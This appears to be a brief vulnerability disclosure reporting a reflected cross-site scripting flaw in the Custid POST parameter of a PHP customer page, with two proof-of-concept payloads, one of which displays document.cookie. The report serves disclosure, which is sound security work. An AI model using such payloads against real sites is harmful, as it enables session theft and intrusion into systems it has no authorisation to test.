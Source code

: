 BUG_Author: dengbaihao

Vulnerability File: /jewerly/customer.php

POST Parameter Custid exists reflected cross-site scripting vulnerability

Payload1: Custid=<script>alert(999)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/1.png)

Payload2: Custid=<script>alert(document.cookie)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/2.png)
